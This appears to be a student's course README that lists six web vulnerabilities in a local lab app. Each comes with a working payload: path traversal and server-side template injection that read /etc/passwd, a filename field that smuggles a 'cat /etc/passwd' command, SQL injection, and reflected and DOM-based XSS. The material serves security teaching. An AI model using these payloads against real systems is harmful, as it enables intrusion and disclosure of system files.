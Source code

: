 The 6 vulnerabilities for my Cybersecurity course:

1. Path traversal:

Payload:

```bash
http://127.0.0.1:5000/image?filename=/etc/passwd
```

2. File non-sanitization:

Payload:

```bash
curl -X POST \
     -d "filename=dummy.pdf; cat /etc/passwd" \
     http://127.0.0.1:5000/run-script
```

3. SSTI:

Payload:

```bash
http://127.0.0.1:5000/render?content=%7B%7Bconfig.__class__.__init__.__globals__%5B'os'%5D.popen('cat%20/etc/passwd').read()%7D%7D
```

4. SQL injection

Payload

```bash
1=1--
```

5. Reflected XSS

Payload

```bash
http://127.0.0.1:5000/preview?input=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
```

6. DOM-based XSS

Payload

```bash
http://127.0.0.1:5000#<img src%3Dx onerror%3Dalert(1)>
```
